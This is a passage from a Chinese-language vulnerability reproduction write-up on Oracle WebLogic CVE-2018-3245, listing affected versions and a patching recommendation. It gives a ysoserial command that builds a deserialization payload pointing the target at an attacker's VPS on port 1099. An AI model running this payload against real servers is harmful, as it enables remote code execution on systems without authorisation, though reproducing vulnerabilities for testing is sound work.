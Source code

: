 修复建议：

1、及时安装weblogic修复补丁。

### CVE-2018-3245

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 12.2.1.3

漏洞复现：

![Dingtalk_20220323154918](.\image\Dingtalk_20220323154918.jpg)

本机利用ysoserial-cve-2018-3245.jar生成payload。

本机执行：java -jar ysoserial-cve-2018-3245.jar CVE_2018_3245 "vpsIP:1099" > poc5.ser

![Dingtalk_20220323155701](.\image\Dingtalk_20220323155701.jpg)
